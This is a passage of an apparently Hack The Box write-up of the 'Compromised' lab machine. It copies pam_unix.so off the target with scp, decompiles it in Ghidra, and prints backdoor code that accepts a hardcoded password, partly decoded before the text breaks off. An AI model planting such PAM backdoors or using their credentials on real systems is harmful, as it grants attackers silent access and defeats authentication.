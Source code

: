 ![Desktop View]({{ "/assets/img/htb-machines/compromised/main5.png"}})

i googled about unix pam so pam is pluggable authentication module (PAM) is a mechanism to integrate multiple low-level authentication schemes into a high-level application programming interface (API). Read More about [PAM](https://en.wikipedia.org/wiki/Pluggable_authentication_module)
while googling about more about i found a article on [pam backdoor](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) this is just a article on creating  a backdoor pam. also from here i guessed that we need to reverse .so file  
<br>
now we need to reverse that  so first transfer pam_unix.so in your system
<br>
scp 
```
scp sysadmin@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so ./pam_unix.so
```

![Desktop View]({{ "/assets/img/htb-machines/compromised/19.png" | relative_url }})

i always use ghidra for reversing stuff

lets open it in ghidra

![Desktop View]({{ "/assets/img/htb-machines/compromised/20.png" | relative_url }})

/assets/img/htb-machines/compromised/

````

if (iVar2 == 0) {
  backdoor._0_8_ = 0x4533557e656b6c7a;
  backdoor._8_7_ = 0x2d326d3238766e;
  local_40 = 0;
  iVar2 = strcmp((char *)p,backdoor);
  if (iVar2 != 0) {
  iVar2 = _unix_verify_password(pamh,name,(char *)p,ctrl);
 }
````
thats hex string

we can reverse the strings using option in ghidra.

![Desktop View]({{ "/assets/img/htb-machines/compromised/21.png" | relative_url }})

convert both string into char sequence 

so strings will be 

```
"zlke~U3E"
"nv82m2-\x00"

```
<br>

our password will be -:
